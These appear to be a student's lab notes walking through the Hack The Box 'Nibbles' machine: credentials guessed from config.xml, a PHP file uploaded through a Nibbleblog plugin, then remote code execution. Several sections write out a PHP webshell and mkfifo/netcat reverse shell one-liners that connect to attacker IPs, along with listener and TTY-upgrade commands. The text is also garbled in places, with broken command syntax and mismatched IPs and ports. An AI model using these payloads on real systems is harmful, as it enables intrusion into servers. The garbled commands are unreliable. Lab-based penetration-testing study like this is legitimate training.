 
Now that we are logged into the admin portal, we need to attempt to turn this access into code execution and ultimately gain reverse shell access to the web server. We know a Metasploit module will likely wokr for this, but let us enumerate the admin portal for other avenues of attack. Looking around a bit, we see the following pages:


> [!note] admin portal
> Public: making a new post, video post, quote post, or new page
> Comments: shows no publish comments
> Manage: managing post, pages and categories.
> Settings: scrolling to the bottom confirms that the vulnerable version is in use.
> Themes: this allows us to install a new them from a pre selected list. 
> Plug-ins: allows us to configure, install, or uninstall plugins. 

Attempting to make a new page and embed code or upload files does not seem like the path. Let’s check the plugin page.

![Nibbleblog plugins page showing installed plugins: Categories, Hello world, Latest posts, My image, with options to configure or uninstall.](https://academy.hackthebox.com/storage/modules/77/plugins.png)
Let’s attempt to use this plufin to upload a snippet of PHP code instead of an image. The following snippet can be used to test for code execution. 
```
<?php system('id'); ?>
```
Save this code to a file and then click on the Browse button and upload it. 

To find out if the file was uploaded successfully, going back to the directory brute-forcing results, we remember the /content directory. Under this, there is a plugins directory and another subdirectory for my_omage. The full path is at http://<host>/nibbleblog/content/private/plugins/my) image/. In this directory, we see two files, db. Xml, and image. Php with  a recent last modfiied date, meaning that out upload was successful. Let usc heck and see if we can command execution. Following command
```
Curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php
```

Looks like we hava gained remote code execution on the web server, and the apache server is running in the nibbler user context. Let us modify our PHP file to obtain a reverse shell and start poking around the server. 
```
<? Php system (“rm /tmp/f; mkfifo /tmp/gf; cat /tmp/fl/bin/sh -i 2? &1|nc 10.10.14.2 9443 >/tmp/f”); ?>

```

This is adding our tun0 VPN IP address in the <Attacking IP> placeholder and a port of our choice for <LISTENING PORT> to catch the reverse shell on the netcat listener.

```
Nc -lvnp 9443
```
CURL the image page again or brwose to it in to execute the reverse shell.
Before we move forward with additional enumeration, let us upggrade our shell to a nicer shell since the shell that we caught is not a fuly intertactive TTY and specific commands such as su will not work, we can’t use text editors, tab-completion does not work, etc. For our purposes, we will use a Python one liner to spawn a pseudo terminal so commands such as su and sudo work as sidcussed previouslty in this module. 


```
Python -c import pty; pty. Spawn (bin/bash)
```
Trey the various techniques for upgrading to fa full TTY and pcik one that works the best for you. Out first attemp faisla s python2 seems to be missing from the system. 

```
$ python -c 'import pty; pty.Spawn ("/bin/bash")'

/bin/sh: 3: python: not found

$ which python3

/usr/bin/python3
```
We have python3 though, which works to get us to a friendlier shell. Brwosing to /home/nibbler, we find the user. Txt flag as well as a zip file personal. Zip. 

```
nibbler@Nibbles :/home/nibbler$ ls

ls
personal.zip  user.txt
```

Gain a foothold on the target and submit the user. Txt flag
> [!note] 
> Start with the basic wget command, wget 10.129.141.185. 
> Nothing useful except that we just find out there is a index. Html file.
> By using cURL method, we can get that there is /nibbleblog/directory information. 
> Using firefox, we can get to access to the 10.129.141.185/nibbleblog
> 
> Now since we found the directory, let’s conduct the gobuster with following command
> Gobuster dir -u http://10.129.141.185 –wordlist /usr/share/dirb/wordlists/common.txt
> 
> (Hint: you can find the common. Txt by find / -type f -iname “common. Txt” 2>/dev/null
> 
> As the result of the gobuster, we can find several http status with 200 (ok) and 301 (redirect).
> Admin. Php, /content, /index. Php, /plugins, /READEME, /themes are the lists. 
> 
> When accessing /admin. Php using firefox, we need valid user id and the password. 
> Let’s go through the /content directory first. 
> There is a private folder, and then you can see users. Xml file. By using curl command, we can retrieve the data that the admin user name is admin. 
> Still no password information, but we can find Nibbles in config. Xml multiple times. This could be our password. And it works. 
> 
> After gaining the access, we can check we can upload files in the image plugin. We can upload following reverse shell one liner in to our php script. 
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
> We can edit this command into 
> Rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.129.141.185 9447 > /tmp/f
> listening on [any] 9443 ...
> connect to [10.10.15.115] from (UNKNOWN) [10.129.141.185] 52314
> /bin/sh: 0: can't access tty; job control turned off
> 
> 

